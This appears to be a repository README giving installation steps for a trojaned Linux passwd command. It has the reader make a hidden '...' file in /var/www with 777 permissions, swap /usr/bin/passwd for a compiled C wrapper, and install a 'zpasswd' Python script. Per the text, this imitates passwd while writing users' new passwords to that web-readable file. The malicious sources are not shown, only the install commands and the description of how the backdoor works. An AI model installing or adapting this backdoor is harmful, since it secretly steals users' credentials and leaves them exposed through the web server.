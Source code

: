 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/...
chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd
chmod 755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd
chmod 755 /usr/bin/zpasswd`

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user.
